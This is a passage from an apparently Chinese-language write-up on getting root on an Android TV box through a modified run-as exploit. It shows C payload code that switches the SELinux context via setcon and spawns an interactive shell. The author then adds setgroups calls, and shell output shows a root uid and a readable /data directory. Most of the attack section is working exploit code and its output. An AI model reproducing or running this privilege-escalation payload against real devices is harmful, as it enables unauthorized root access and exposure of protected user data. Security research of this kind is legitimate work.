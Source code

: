 ```c
	dlerror();
#ifdef __aarch64__
	void * selinux = dlopen("/system/lib64/libselinux.so", RTLD_LAZY);
#else
	void * selinux = dlopen("/system/lib/libselinux.so", RTLD_LAZY);
#endif
	if (selinux) {
		void * getcon = dlsym(selinux, "getcon");
		const char *error = dlerror();
		if (error) {
			LOGV("dlsym error %s", error);
		} else {
			getcon_t * getcon_p = (getcon_t*)getcon;
			char * secontext;
			int ret = (*getcon_p)(&secontext);
			LOGV("%d %s", ret, secontext);
			void * setcon = dlsym(selinux, "setcon");
			const char *error = dlerror();
			if (error) {
				LOGV("dlsym setcon error %s", error);
			} else {
				setcon_t * setcon_p = (setcon_t*)setcon;
				ret = (*setcon_p)("u:r:shell:s0");
				ret = (*getcon_p)(&secontext);
				LOGV("context %d %s", ret, secontext);
			}
		}
		dlclose(selinux);
	} else {
		LOGV("no selinux?");
	}

	system("/system/bin/sh -i");

}
```

可见也是通过`setresgid(),setresuid()`这种利用库函数设置当前进程uid的方法进行提权，与上文提到的su中的`setuid()`代码实现类似，并且设置了进程上下文为`u:r:shell:s0`，尝试改成`u:r:init:s0`和`u:r:kernel:s0`均失败

### 修改payload

通过上述方法获得shell因为selinux还是基本啥都干不了，连个/data/目录都看不了，我在main函数里加了两行：

```C
int a[4] = {0,1,1000,2000};
setgroups(4,a);
```
通过setgroups可以是用户加入更多的组，现在的效果如下：

```bash
shell@hwHiTV-M1:/ $ run-as
WARNING: linker: run-as: unused DT entry: type 0x6ffffffe arg 0xa1c
WARNING: linker: run-as: unused DT entry: type 0x6fffffff arg 0x2
uid run-as 2000
uid 0
0 u:r:runas:s0
0
context 0 u:r:shell:s0
shell@hwHiTV-M1:/ # id
uid=0(root) gid=0(root) groups=0(root),1,1000(system),2000(shell) context=u:r:shell:s0
shell@hwHiTV-M1:/ # ls /data
android_logs
anr
app
```